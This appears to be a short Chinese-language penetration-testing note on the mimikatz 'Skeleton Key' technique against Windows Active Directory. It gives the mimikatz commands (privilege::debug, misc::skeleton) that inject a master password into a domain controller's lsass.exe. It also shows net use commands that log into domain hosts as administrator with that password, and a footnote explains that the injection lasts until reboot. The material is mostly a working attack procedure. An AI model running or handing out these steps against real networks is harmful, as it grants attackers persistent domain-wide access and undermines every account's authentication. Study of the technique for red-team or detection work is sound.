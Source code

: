 **在域控中通过mimikatz注入万能密码（Skeleton Key[^1]）。**
```powershell
.\mimikatz.exe
privilege::debug     #申请调试权限
misc::skeleton       #注入 skeleton key

# 使用Skeleton Key 连接域中主机
net use \\WIN-45GI22DJERU\ipc$ "mimikatz" /user:Tho\administrator
net use \\WIN-45GI22DJERU.Tho.com\ipc$ "mimikatz" /user:Tho.com\administrator
```
然后其他主机就可以用万能密码进行连接操作了
域控主机名可以用`net time /domain`或`net user /domain`



[^1]: Skeleton-Key，也可以叫他万能密码，就是在域控制器执行mimikatz给域中所有用户添加一个mimikatz的默认密码，但是他也是注入到内存里面的，就是将Skeleton Key 注入域控(DC)的 lsass.exe进程中，所以重启就会失效，但是通常域控很长时间都不会重启的。